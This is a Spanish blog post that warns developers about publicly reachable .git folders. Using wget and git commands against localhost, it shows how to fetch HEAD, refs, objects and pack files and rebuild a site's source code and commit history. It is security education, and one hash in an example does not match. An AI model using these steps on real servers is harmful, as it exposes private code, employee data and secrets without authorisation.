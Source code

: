 ```yaml
---
layout: post

title: Repositorios expuestos 🔐
subtitle: Reconstruye un repositorio a partir de una carpeta git pública.

tags: [GIT, Información, Seguridad, WEB]

thumbnail-img: /assets/img/git-logo.png
cover-img: /assets/img/spongebob-crying.webp
---
```


## Cuidado con tu .git 🔐

No restringir el acceso a la carpeta
**.git** de tu proyecto puede no ocasionar realmente ningún inconveniente si es un repositorio publico, pero, ¿y si es un repositorio privado?

Supongamos que tenemos un proyecto publicado en un servidor web en [localhost]() y no existen restricciones de acceso a la carpeta **.git** .

Si por ejemplo almacenas información delicada en el repositorio, archivos de configuración o tienes scripts php que puedan modificar información sin comprobar la identidad del usuario, entonces estás exponiendo al completo la integridad de tu proyecto.

<img src="/assets/img/spongebob-fire.gif" style="zoom: 67%;" />

**Veamos un ejemplo (sin herramientas externas):**


### Tabla de Contenidos

1. [Preparación :fire:](#preparación)
2. [Archivos clave :eyes:](#archivos-clave-git)
   1. [HEAD :memo:](#head)
   2. [master :memo:](#master)
   3. [packs :card_file_box:](#packs)
3. [Descargar todo :ambulance:](#descargar-todo)
<br>

#### Preparación 

Primero, es necesario crear una estructura de un repositorio vacío en local, para acomodar la información que se obtiene del servidor.

En este caso el repositorio vacío se crea en una carpeta llamada pruebaGit.

`mkdir pruebaGit`

`cd pruebaGit`

`git init`
<br>

#### Archivos clave GIT

Para obtener la información del servidor, se lleva a cabo una recogida de archivos clave de Git.

- HEAD
- objects/\*\*/\*
- objects/info/packs
- objects/pack/\*.pack
- objects/pack/\*.idx
- refs/heads/master
- [Existen más]

<br>

##### HEAD

Se obtiene el archivo **HEAD** mediante la herramienta **wget** para ver qué rama del proyecto de está utilizando.

```bash
$wget http://localhost/.git/HEAD

$cat HEAD
ref: refs/heads/master
```

Se observa como el servidor devuelve el contenido de HEAD dando a conocer el nombre y ubicación del identificador de la rama,
en este caso el nombre de la rama es **master**, y está situada en **/refs/heads/**.

<br>

##### master


```bash
$wget http://localhost/.git/refs/heads/master

$cat master
44a5c422631838b49b9812caef6caeb0176cdaf7
```

El contenido es un SHA1 que identifica el objeto del último commit que se haya realizado en la rama.

El primer byte **44** es una carpeta y los siguientes 19 bytes **a5c422631838b49b9812caef6caeb0176cdaf7** es el nombre del archivo que contine la información del commit.

Si se realiza una petición a la dirección compuesta por este identificador, **.git/objects/44/a5c422631838b49b9812caef6caeb0176cdaf7**, se obtiene el último commit registrado.

Para leer su contenido, es necesario mover el archivo al directorio que corresponde en el repositorio local para después utilizar la herramienta nativa de **git**, `git cat-file -p`.

```bash
$mkdir .git/objects/44

$wget http://localhost/.git/objects/44/a5c422631838b49b9812caef6caeb0176cdaf7 
-O .git/objects/44/a5c422631838b49b9812caef6caeb0176cdaf7

$git cat-file -p e467e96d66ded9ccac4c5b13699ed1735a419a88
tree 70fa54e41234592f3d9969dfa1670aae75671baf
author Nontre <nontre@nontre.es> 1642869168 +0000
committer Nontre <nontre@nontre.es> 1642869168 +0000

Init
```

La información que facilita el commit puede ser muy delicada, ya que se puede ver información de algunos empleados, como su nombre y dirección de correo.

En este caso, interesa el apartado **tree** del commit.

Si se realiza una petición a la dirección compuesta con el SHA1 de tree, **.git/objects/70/fa54e41234592f3d9969dfa1670aae75671baf**, se obtiene el árbol de ficheros y carpetas del código fuente del proyecto.

```bash
$mkdir .git/objects/70

$wget http://localhost/.git/objects/70/fa54e41234592f3d9969dfa1670aae75671baf 
-O .git/objects/70/fa54e41234592f3d9969dfa1670aae75671baf

$git cat-file -p 70fa54e41234592f3d9969dfa1670aae75671baf
100644 blob e69de29bb2d1d6434b8b29ae775ad8c2e48c5391    .htaccess
040000 tree d564d0bc3dd917926892c55e3706cc116d5b165e    admin
040000 tree d564d0bc3dd917926892c55e3706cc116d5b165e    css
100644 blob e69de29bb2d1d6434b8b29ae775ad8c2e48c5391    index.php
040000 tree d564d0bc3dd917926892c55e3706cc116d5b165e    js
040000 tree d564d0bc3dd917926892c55e3706cc116d5b165e    lib
```
<br>

##### packs

Muchas veces es posible que al intentar obtener el contenido de cualquier archivo, el servidor devuelva 404.

Git trabaja también empaquetando el código en paquetes, por lo que desempaquetando los archivos **.pack** obtendremos objetos que no se encontraban en la carpeta objects.

Para conocer el nombre de los packs en el servidor, git almacena sus nombres en **.git/objects/info/packs**.

```bash
$wget http://localhost/.git/objects/info/packs

$cat packs
P pack-ea121caa3a973b9b2ecefdf8278c47dc906f36b6.pack
```
En este caso, existe un archivo pack.

<br>

Estos packs se almacenan en **.git/objects/pack/**.

```bash
$wget http://localhost/.git/objects/pack/pack-ea121caa3a973b9b2ecefdf8278c47dc906f36b6.pack

$wget http://localhost/.git/objects/pack/pack-ea121caa3a973b9b2ecefdf8278c47dc906f36b6.idx

$git count-objects
3 objects, 12 kilobytes

$git unpack-objects -r < pack-ea121caa3a973b9b2ecefdf8278c47dc906f36b6.pack
Desempaquetando objetos: 100% (18755/18755), 82.92 MiB | 5.14 MiB/s, listo.

$git count-objects
18758 objects, 161648 kilobytes
```

Antes de desempaquetar, contábamos con tan solo **3 objetos** (los obtenidos anteriormente).
Después de desempaquetar, el repositorio local cuenta con unos **18758 objetos** obtenidos del servidor remoto.
Estos objetos son **commits, archivos y directorios**.
<br>
#### Descargar todo

Si por ejemplo quisieras descargar todo el repositorio, lo primero que necesitas hacer es un `git checkout -- .` , este comando intentará reconstruir todos los archivos del repositorio a través de los objetos que se han importado del servidor.

Probablemente muchos objetos no se puedan recuperar y tendrás que intentar descargarlos manualmente.

<img src="/assets/img/spongebob-cursed.png" style="zoom:33%;" />